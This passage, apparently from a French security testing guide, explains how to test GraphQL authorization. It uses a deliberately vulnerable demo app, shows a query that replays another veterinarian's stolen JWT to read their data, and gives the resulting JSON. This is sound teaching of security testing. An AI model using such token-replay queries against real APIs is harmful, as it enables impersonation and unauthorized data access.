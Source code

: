 ![Requête d'authentification GraphQL](images/auth1.png)\
*Figure 12.1-4 : API de requête d'authentification GraphQL*

Le test de l'implémentation de l'autorisation varie d'un déploiement à l'autre, car chaque schéma aura des informations sensibles différentes et, par conséquent, des cibles différentes sur lesquelles se concentrer.

Dans cet exemple vulnérable, chaque utilisateur (même non authentifié) peut accéder aux jetons d'authentification de chaque vétérinaire répertorié dans la base de données. Ces jetons peuvent être utilisés pour effectuer des actions supplémentaires autorisées par le schéma, telles que l'association ou la dissociation d'un chien de tout vétérinaire spécifié à l'aide de mutations, même s'il n'y a pas de jeton d'authentification correspondant pour le vétérinaire dans la demande.

Voici un exemple dans lequel le testeur utilise un jeton extrait qu'il ne possède pas pour effectuer une action en tant que vétérinaire "Benoit":

```graphql
query brokenAccessControl {
  myInfo(accessToken:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNjAzMjkxMDE2fQ.r3r0hRX_t7YLiZ2c2NronQ0eJp8fSs-sOUpLyK844ew", veterinaryId: 2){
    id, name, dogs {
      name
    }
  }
}
```

Et la réponse :

```json
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
        {
          "name": "..."
        }
      ]
    }
  }
}
```